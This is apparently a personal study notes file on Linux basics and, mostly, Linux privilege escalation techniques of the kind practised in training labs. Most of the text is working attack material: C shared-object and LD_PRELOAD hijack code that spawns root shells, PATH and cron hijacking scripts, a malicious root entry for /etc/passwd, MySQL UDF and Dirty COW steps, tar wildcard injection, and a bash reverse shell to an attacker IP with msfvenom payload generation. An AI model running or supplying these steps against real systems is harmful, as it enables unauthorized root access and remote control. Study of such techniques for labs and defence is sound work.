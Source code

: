 = Linux

== Path

* /dev/shm: temporary file storage (tmpfs) that uses RAM for the storage

== Shell Operators
|===
|Symbol/Operator |Description

|&
|Run commands in the background of the terminal

|&&
|Combine multiple commands together in one line of the terminal.

Right-hand command will only run if left-hand command is successful.

|>
|Output redirector. We can take output from a command and direct it elsewhere

|>>
|Appends to the output rather than replace it

|===

== Commands
* -h is called a switch
* --help is called a flag

|===
|Command |Full Name |Purpose |Good switch/flags

|file
|
|Determine the type of a file
|

|su
|switch user
|
|-l -> start a shell that is much more similar to the actual user logging into the system

|===

== Common Directories

* /etc: configs, ...
* /var: variable data, data frequently accessed, log files (/var/log)
* /root: home for root user
* /tmp: anyone can write here

== Namespaces
* OS uses namespaces to split resources available (CPU, RAM, priority) to processes
* great for security -> isolate processes from a namespace from another namespace

== Keyboard shortcuts / terminal actions

|===
|Shortcut |Description

|Ctrl + Z (or &)
|Send a process to the background

|fg
|Bring process from background to foreground

|===

== CRON
[source, bash]
----
0 * 12 * * * cp -R /home/cmnatic/Documents /var/backups/
----

|===
|Value |Description

|MIN
|What minute to execute at

|HOUR
|What hour to execute at

|DOM
|What day of the month to execute at

|MON
|What month of the year to execute at

|DOW
|What day of the week to execute at

|CMD
|The actual command that will be executed

|===

https://crontab-generator.org/[crontab-generator.org] or https://crontab.guru/[crontab.guru]

== /etc/shadow
Password hashes are stored in this file, only visible by root normally. Other info in this file: date of last password change, password expiration, ...

To crack the hashes and John the ripper, we need to combine this file with /etc/passwd.

== Privilege Escalation
Horizontal privsec: from normal user to another normal user. That could be what we want if that other user has a SUID file attached to their home directory.

Vertical privsec: from normal user to root

=== SUID/GUID
File with SUID bit set => file or files can be run with the permissions of the file(s) owner. GUID, with the group.

* u = user; g = group; o = other
* read = r = 4
* write = w = 2
* execute = x = 1

But when special permission is given to each user it becomes SUID or SGID. When extra bit “4” is set to user(Owner) it becomes SUID (Set user ID) and when bit “2” is set to group it becomes SGID (Set Group ID).

`chmod 4755 script.sh`

Permissions to look for:

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` or `find / -user root -perm -4000 -exec ls -ldb {} \;`

This kind of file is only exploitable if we can supply it an argument for command injection. If the SUID binary just execute "ps", we can't do anything with it.

==== Known exploits
Look for SUID binaries that can be exploited in https://www.exploit-db.com/[Exploit DB]

==== Shared object injection
Use strace on the executable to see open/access calls and "no such file" errors.

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

[source, bash]
----
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
----

Create missing directory and add our own libcalc.so that spawns a shell.

libcalc.c
[source, c]
----
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
----

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

After compiling it, we can run suid-so again to get a root shell.

==== Environment variables
SUID binary is exploitable if inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Use `strings` command to find string in executable.

[source, bash]
----
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
----
The executable service could be replaced by our own to get a shell as root.

service.c
[source, c]
----
int main() {
        setuid(0);
        system("/bin/bash -p");
}
----
Compile it as "service" and execute

`PATH=.:$PATH /usr/local/bin/suid-env`


==== Abusing shell features
Sometimes, old version of a shell are exploitable like bash < 4.2-048.

Even if the absolute path is used, we can create a bash function that will be used instead of the binary at the absolute path.

[source, bash]
----
user@debian:~$ strings /usr/local/bin/suid-env2
[...]
/usr/sbin/service apache2 start

user@debian:~$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)

user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service

user@debian:~$ /usr/local/bin/suid-env2
user@debian:~#
----

The function that loads a bash and preserve permissions with `-p` is used instead of the executable service.

For bash versions < 4.4, we can use debugging mode.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements. Use it to embed a command which creates an SUID version of /bin/bash

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Now execute `/tmp/rootbash -p` to get a root shell.

=== Exploiting writeable /etc/passwd
Group with gid 0 is root group. Useful to find user on the system who can edit /etc/passwd. With that access, we can create a root user that we can access.

7 fields in /etc/passwd where an entry looks like this

`test:x:0:0:root:/root:/bin/bash`

. Username: between 1 and 32 char length
. Password: 'x' indicates password is stored in /etc/shadow. Need "passwd" command to compute the hash
. User ID: 0 for root, 1-99 are reserved for other predefined accounts, 100-999 are reserved by system for admin and system accounts/groups
. Group ID: primary group ID stored in /etc/group file
. User ID info: full name, phone number, ...
. Home directory: if directory doesn't exist, it becomes /
. Command/shell: absolute path of shell but it doesn't have to be a shell

Create a user, add the hash and put 0 for UID/GID to give root access.

[source, bash]
----
openssl passwd -1 -salt [salt] [password]
----
Result with salt=new and password=123 below.

Create the entry in /etc/passwd

`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`

=== Exploiting readable/writeable /etc/shadow
The /etc/shadow file contains user password hashes and is usually readable only by the root user.

If /etc/shadow is world readable, we can extract hashed password and try to crack them with John the ripper.

If /etc/shadow is writeable, we can just replace root password with our hash

`mkpasswd -m sha-512 newpasswordhere`

=== Escaping Vi Editor
Execute `sudo -l` to list what commands we are able to use as a super user on that account.

The output is something like that

[source, bash]
----
user8@polobox:/home/user3$ sudo -l
User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
----

We just need to do `sudo vi` then `:!sh` to get a shell prompt as root.

Check https://gtfobins.github.io/[GTFOBins] for list of Unix Binaries that can be exploited to bypass local security restrictions.

=== Exploiting CRON
CRON tasks are written in /etc/crontab, executed by CRON daemon (root).

Format of a cronjob:

`17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly`

* # = ID
* m = minute
* h = hour
* dom = day of the month
* mon = month
* dow = day of the week
* user = what user the command will run
* command = what command should be run

==== File permissions of command
Check for scripts executed as root where we have write access. The task is then to create a command that will return a shell and paste it in this file. When the file runs again, the shell will be running as root.

[source, bash]
----
#!/bin/bash
bash -i >& /dev/tcp/{our attacker ip}/4444 0>&1
----

Then use `nc -lvnp 4444` ou our attacker box and wait for the script to be executed.

==== PATH env variable
For this to work, we need to have a directory that we can write into in the PATH and a command without the absolute path like `* * * * * root overwrite.sh`

If the file overwrite.sh is found in /usr/local/bin/overwrite.sh, we also need the directory where we can write into to be before /usr/local/bin

`PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

We can just create a file overwrite.sh in /home/user/overwrite.sh and this will be picked up before the one in /usr/local/bin.

/home/user/overwrite.sh
[source, bash]
----
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
----

This script will be executed as root, will copy bash in /tmp/rootbash and set the SUID bit. We can then execute /tmp/rootbash after the script has run to get a shell as root.

==== Wildcards
For example, if the tar command is being run with a wildcard.

/usr/local/bin/compress.sh
[source, bash]
----
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
----

If we look at https://gtfobins.github.io/gtfobins/tar/[GTFObins - tar], we can see that there is a checkpoint feature where we can execute a command.

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

We can create a payload that will be executed during the tar command.

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf -o shell.elf`

Copy it on the path that is being picked up by tar.

`scp shell.elf user@10.10.239.231:~`

We then need to create two files that will act as parameters for tar.

[source, bash]
----
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
----

This is because when the command is run, * will expand to include these files which are valid tar command line options. We just need to set up a listener on our attacker machine and wait `nc -lvnp 4444`

=== Exploiting PATH variable
Environment variable that specifies directories that hold executable programs.

We can exploit that by rewriting the PATH variable to a location of our choosing. So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead.

`echo "[whatever command we want to run]" > [name of the executable we're imitating]` if the binary with SUID calls `ls`, that's the name we will put as file name.

Go to /tmp and create the fake "ls" binary. In this example /home/user5/script has SUID bit set and executes ls command.

[source, bash]
----
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
export PATH=/tmp:$PATH
cd /home/user5
./script
----

When executing ./script (SUID), it looks for "ls" in the PATH which is found in /tmp since we put it first and execute our "ls" which calls bash as root because of the SUID.

=== Service exploits
If MySQL service is running as root without a password assigned, we can use an https://www.exploit-db.com/exploits/1518[exploit] that takes advantage of User Defined Functions to run system commands as root via the MySQL service

Compile the exploit in /home/user/tools/mysql-udf

[source, bash]
----
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
----

`mysql -u root` to connect to mysql service.

[source, mysql]
----
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
----

Now, executing /tmp/rootbash will give us a shell as root.

`/tmp/rootbash -p`

=== sudo
`sudo -l` to list programs which sudo allows the user to run.

Find programs listed in https://gtfobins.github.io/[GTFObins] to see how to exploit that.

==== Shell escape sequences
If the program is listed with "sudo" as a function, we can use it to elevate privileges.

Any program that allows us to type commands such as "!/bin/sh" will get us a shell as root if we launched the initial command with sudo (iftop, vim, ...).

==== Environment variables
sudo can be configured to inherit certain environment variables from the user's environment. Look for env_keep.

[source, bash]
----
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
----

* LD_PRELOAD loads a shared object before any others when a program is run.
* LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Similar to PATH, we can create our own library to exploit LD_PRELOAD.

preload.c
[source, c]
----
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

----

[source, bash]
----
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo LD_PRELOAD=/tmp/preload.so program-name-here
----

A root shell should spawn. Run ldd against the apache2 program to see which shared libraries are used by the program. We need to find one that we can replace.

[source, bash]
----
user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff881bc000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f60191d2000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f6018fae000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f6018d74000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f6018b58000)
        libc.so.6 => /lib/libc.so.6 (0x00007f60187ec000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f60185e7000)
        librt.so.1 => /lib/librt.so.1 (0x00007f60183df000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f60181a8000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f6017fa3000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f6017d7b000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f601968f000)
----

library_path.c
[source, c]
----
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
----

Compile library_path and create shared library libcrypt.so.1
[source, bash]
----
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
----

=== Password & Keys

==== History files
Check the history for password in them.

`cat ~/.*history | less`

==== Config files
Config files often contains passwords in plaintext or other reversible formats. Check directories that can be accessed.

Check /etc or $HOME for readable files where password could be stored.

==== SSH keys
Look for hidden backup folders that could have wrong permissions (readable by all).

`ls -la /`

They might contain passwords or ssh keys.

If there is an SSH key for root, try to connect as root on the machine using it.

`ssh -i root_key root@localhost`

=== NFS
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

`cat /etc/exports`

[source, bash]
----
user@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
----

/tmp has root squashing disabled. On our attacker box, login as root and create a shell with msfvenom with SUID bit set, copy it on the NFS after mounting it. Since it is root, the permissions will be kept on the NFS in /tmp. A simple user can then execute it and get root shell.

[source, bash]
----
sudo su
mkdir /tmp/nfs
mount -t nfs -o rw,vers=3 target_ip:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
----

Then on the target machine, execute /tmp/shell.elf to get root shell.

=== Kernel exploits
Kernel exploits can leave the system in an unstable state, which is why we should only run them as a last resort.

Run perl script linux-exploit-suggester-2 from https://github.com/jondonas/linux-exploit-suggester-2[Github] on the target machine to see what could work.

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

[source, bash]
----
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w

/usr/bin/passwd
----

to get a root shell.

=== Checklist
* https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md[Github - checklist privesc]
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md[Github - payloadallthethings privesc]
* https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html[OSCP guide - privesc]
* https://payatu.com/guide-linux-privilege-escalation[Blog payatu]